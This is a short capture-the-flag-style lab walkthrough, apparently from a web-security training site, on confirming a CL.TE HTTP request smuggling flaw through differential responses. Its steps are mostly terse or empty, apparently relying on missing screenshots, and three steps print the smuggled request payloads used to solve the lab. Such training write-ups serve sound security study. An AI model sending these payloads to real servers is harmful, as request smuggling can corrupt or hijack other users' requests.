









# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

change post request to get request
change protocol from HTTP/2 to HTTP/1.1



### step2



### step3



### step4



### step5

content-Length update must be unmarked



### step6

test payload

```
e
q=smuggling&x=
0

GET /post?postId=5 HTTP/1.1
Foo: x
```



### step7

test payload

```
0

GET /post?postId=5 HTTP/1.1
Foo: x
```



### step8

final payload to solve lab

```
0

GET /404 HTTP/1.1
Foo: x
```



### step9

lab solved


